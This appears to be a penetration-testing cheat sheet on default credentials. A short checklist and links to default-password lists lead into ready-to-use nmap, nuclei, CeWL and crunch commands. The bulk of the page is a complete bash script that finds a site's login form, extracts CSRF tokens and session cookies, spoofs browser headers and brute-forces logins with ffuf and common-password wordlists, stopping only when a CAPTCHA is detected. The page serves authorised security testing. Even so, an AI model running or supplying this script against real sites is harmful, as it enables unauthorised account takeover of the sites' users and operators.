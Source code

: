 # Default Credentials

## Check List

* [ ] Determine whether the application has any user accounts with default passwords.
* [ ] Review whether new user accounts are created with weak or predictable passwords.

## Cheat Sheet

### Vendor Default Credentials

#### Default Creds

{% embed url="https://github.com/many-passwords/many-passwords" %}

{% embed url="https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv" %}

{% embed url="https://many-passwords.github.io/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://haveibeenpwned.com/Passwords" %}

{% embed url="https://cirt.net/passwords" %}

#### [Nmap](https://github.com/nnposter/nndefaccts)

```bash
sudo nmap -p80,443 --mtu 5000 --script http-default-accounts $WEBSITE
```

### Organization Default Passwords

{% embed url="https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials" %}

#### [defaultcreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)

```bash
creds search tomcat
```

#### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/tree/main/http/default-logins)

```bash
nuclei -u $WEBSITE -tags default-login
```

### Application Generated Default Passwords

#### [CeWL](https://github.com/digininja/CeWL)

```bash
cewl $WEBSITE --header "Cookie: $COOKIE" -d 5 -m 4
```

#### [Crunch](https://sourceforge.net/projects/crunch-wordlist/)

{% hint style="info" %}
`-t` = Password Pattern

`@` = Lowercase Keywords

`,` = Uppercase Keywords

`%` = Digits

`^` = Meta Characters

Example Result: `abcompany12`
{% endhint %}

```bash
crunch 8 12 -t @@company%% -o /tmp/passlist.txt
```

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano default-bruteforce.sh
```

```bash
#!/bin/bash

# Config
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"

# Input Check
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"

# Find Login Page
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sed 's:$:/:')

if [ -z "$LOGIN" ]; then
    echo "[!] No login page found. Exiting."
    exit 1
fi

# Fetch HTML
HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA / reCAPTCHA Check
CAPTCHA_KEYWORDS="g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"
if echo "$HTML" | grep -qiE "$CAPTCHA_KEYWORDS"; then
    echo "[!] CAPTCHA detected on login page. Brute-force aborted."
    exit 1
fi

# Extract Form Action and Method
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

if [[ "$ACTION" == /* ]]; then
    BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    BASE_URL=$(echo "$LOGIN" | sed 's|\(https\?://.*/\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
fi

# Extract Username & Password Ffiles
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')

[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF Token Extration
CSRF_FIELD=""
CSRF_VALUE=""

HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

if [ -z "$CSRF_FIELD" ] && [ -n "$HIDDEN_INPUTS" ]; then
    CSRF_FIELD=$(echo "$HIDDEN_INPUTS" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+' | head -1)
    CSRF_VALUE=$(echo "$HIDDEN_INPUTS" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+' | head -1)
fi

# Prepre POST Data
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

# Extract Cookies
COOKIES=$(curl -s -I "$URL" \
  | grep -i '^Set-Cookie:' \
  | sed -E 's/^Set-Cookie: //I' \
  | cut -d';' -f1 \
  | grep -i 'PHPSESSID')

# Extract only domain and port
HOST=$(echo "$URL" | sed -E 's~^https?://([^/]+).*~\1~')

# Headers
HEADERS=(
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
  -H "Accept-Language: en-US,fa-IR;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "Origin: $URL"
  -H "Sec-GPC: 1"
  -H "Connection: keep-alive"
  -H "Referer: $LOGIN"
  -H "Cookie: $COOKIES"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Priority: u=0, i"
)

# Run FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -X GET \
         -ac -c -r \
         -mc 200 \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200 \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x default-bruteforce.sh;sudo ./default-bruteforce.sh $WEBSITE
```
